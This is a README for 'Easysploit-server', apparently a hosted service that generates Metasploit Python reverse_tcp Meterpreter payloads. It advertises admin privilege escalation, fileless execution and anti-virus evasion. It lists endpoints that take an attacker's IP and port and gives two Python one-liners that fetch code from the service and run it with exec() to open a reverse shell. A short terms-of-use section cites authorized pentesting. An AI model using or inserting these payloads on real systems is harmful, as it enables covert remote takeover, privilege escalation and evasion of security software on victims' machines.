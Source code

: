# Easysploit-server
## Overview
Easysploit Server is a tool designed to generate, customize, and manage Metasploit reverse_tcp payloads. It simplifies exploitation with built-in admin privilege escalation, and AV evasion capabilities, supporting fileless execution for fast, undetectable operations.  
Easysploit server is now working on https://easysploit.rocknroll17.com.  
  
## Features  
- Custom Reverse_TCP Payloads
- Admin Privilege Escalation
- Fileless Execution (Memory-based)
- Anti-Virus Evasion
  
## Installation  
You don't need to run this server.  
It is already working on https://easysploit.rocknroll17.com.  
  
## Usage  
Server receives GET, POST both requests.
GET: Params
POST: Body JSON

### Available Endpoints  
1. **Standard python Reverse TCP Payload**  
Endpoint: `/python/meterpreter/reverse_tcp`  
2. **Admin Privilege Reverse TCP Payload**  
Endpoint: `/python/meterpreter/reverse_tcp/admin`  

### GET Param
```
LHOST: Attacker's IP
LPORT: Attacker's listening port
```
  
### POST Body
Both endpoints require the same JSON payload:  
```
{
  "LHOST": "Attacker's IP",
  "LPORT": Attacker's listening port
}
```  
  
## Example Code
Insert this code where you gonna exploit.  
1. **Standard python Reverse TCP Payload**  
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```  
2. **Admin Privilege Reverse TCP Payload**  
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp/admin", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```

## Terms of Use
This tool is provided for **legal pentesting tests** and should only be used in **authorized environments**.  
Any illegal activity performed using this tool is the **sole responsibility of the user**.  
By using this tool, you agree to these terms and accept full legal responsibility for its use.